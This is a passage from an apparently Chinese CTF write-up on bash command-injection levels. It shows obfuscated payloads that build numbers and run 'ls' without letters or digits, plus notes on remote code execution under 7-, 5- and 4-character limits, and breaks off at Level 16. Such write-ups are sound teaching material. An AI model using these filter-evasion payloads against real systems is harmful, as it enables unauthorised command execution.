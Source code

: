 
所以该关卡我们使用Python来构建虚拟终端，使其直接与bash交互，那么对应的替换命令就能正常使用。

#### Level 13 - 特殊扩展替换任意数字

在前面我们用的 `$((2#binary))` 的方式来引入二进制，如果`#`被禁用呢？

在不使用`$((2#binary))`特性的情况下，我们还可以通过多个-1的叠加再取反去构造任意数字，于是就有了：

```
oct_list = [  # 构造数字 0-7 以便于后续八进制形式的构造
    '$(())',  # 0
    '$((~$(($((~$(())))$((~$(())))))))',  # 1
    '$((~$(($((~$(())))$((~$(())))$((~$(())))))))',  # 2
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 3
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 4
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 5
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 6
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 7
]
```

不过由于sh不支持一些特性 —— 如 `${!?}`

所以仅能通过定义一个`__=$(())`的方式将`__`变量的值设置为0，然后通过`${!__}`的形式拿到`sh`字符。两条命令间通过`&&`进行连接。至于为什么是两个下划线，是因为bash的变量命名规范是以下划线或者英文字母开头，可以包含下划线和英文字母数字。

所以对于 ls 命令：

```
__=$(())&&${!__}<<<${!__}\<\<\<\$\'\\$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))\\$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))))))\'
```

### Level 14 - 16

#### Level 14 - 长度限制_7字符RCE

```bash
>a    #虽然没有输入但是会创建a这个文件
ls -t    #ls基于基于事件排序（从晚到早）
sh a    #sh会把a里面的每行内容当作命令来执行
使用\进行命令拼接    #l\ s    =    ls
base64    #使用base64编码避免特殊字符
```

#### Level 15 - 长度限制_5字符RCE

idea from ：[【HITCON 2017 - babyfirst-revenge】](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge)

#### Level 16 - 长度限制_4字符RCE
